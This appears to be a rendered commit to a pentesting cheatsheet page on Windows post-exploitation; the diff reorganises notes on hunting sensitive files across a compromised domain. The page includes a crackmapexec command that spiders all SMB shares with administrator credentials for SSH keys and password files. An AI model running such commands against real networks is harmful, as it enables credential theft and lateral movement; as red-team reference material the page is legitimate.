

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 2141 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2968 px from its top, so only the background shows below that.

Commit message:
Update Post_Exploitation.md

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -87,13 +87,17 @@ Useful if AV cannot be disabled and does not block procdump.exe
     ```
 ---
 ## Looking for files in the Domain
-* Useful when escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
-    * ssh keys
-    * password files
-    * password manager DBs
-* spider = "*" to spider all shares per host
-* long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
-* Edit the `--pattern` for more filename patterns
+* Useful when
+    * escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
+        * ssh keys
+        * password files
+        * offline password manager DB files
+    * sensitive files in "authenticated" shares
+        * Attempting to escalate privileges and pivot to other hosts/networks
+* About command:
+    * spider = "*" to spider all shares per host
+    * long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
+    * Edit the `--pattern` for more filename patterns
 
 ```bash
 crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt 1>>1.txt
````
